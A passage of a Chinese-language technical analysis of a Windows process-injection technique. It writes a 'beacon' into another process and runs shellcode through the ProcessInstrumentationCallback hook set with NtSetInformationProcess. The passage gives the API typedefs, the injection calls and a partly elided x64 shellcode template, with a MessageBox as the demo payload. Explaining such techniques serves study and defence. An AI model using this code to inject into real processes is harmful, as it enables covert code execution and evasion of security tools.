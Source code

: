 ```

5. 修改内存保护
   ├─> VirtualProtectEx(beacon, PAGE_EXECUTE_READ)
   └─> VirtualProtectEx(shellcode, PAGE_EXECUTE_READWRITE)

6. 设置回调
   └─> NtSetInformationProcess(ProcessInstrumentationCallback)

7. 等待触发
   ├─> 目标进程执行任何系统调用
   ├─> 内核触发 InstrumentationCallback
   ├─> shellcode 执行
   └─> beacon 弹出 MessageBox

8. 监控执行
   └─> ReadProcessMemory(shellcode[0]) 检测首字节变化
```

### 4. 关键 API

#### NtSetInformationProcess

```c
typedef NTSTATUS (NTAPI *pNtSetInformationProcess)(
    HANDLE ProcessHandle,
    PROCESSINFOCLASS ProcessInformationClass,  // 40 = ProcessInstrumentationCallback
    PVOID ProcessInformation,                  // 指向结构体
    ULONG ProcessInformationLength             // sizeof(结构体)
);

typedef struct _PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION {
    ULONG Version;      // 必须为 0
    ULONG Reserved;     // 必须为 0
    PVOID Callback;     // shellcode 地址
} PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION;
```

## 实现代码分析

### 核心注入代码

```c
// 1. 分配并写入 beacon
LPVOID beaconAddress = VirtualAllocEx(hProc, NULL, beaconSize,
                                      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
WriteProcessMemory(hProc, beaconAddress, beaconContent, beaconSize, NULL);
VirtualProtectEx(hProc, beaconAddress, beaconSize, PAGE_EXECUTE_READ, &oldProtect);

// 2. 创建 shellcode 模板
BYTE shellcodeTemplate[49] = {
    0x55,                        // push rbp
    0x48, 0x89, 0xe5,           // mov rbp, rsp
    // ... (自修改标记)
    0x50, 0x53, 0x51, 0x41, 0x51, 0x41, 0x52, 0x41, 0x53,  // 保存寄存器
    0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,  // mov rax, beacon
    0xff, 0xd0,                  // call rax
    // ... (恢复寄存器)
    0x41, 0xff, 0xe2             // jmp r10
};

// 3. Patch beacon 地址
*(DWORD64*)(shellcodeTemplate + 26) = (DWORD64)beaconAddress;

```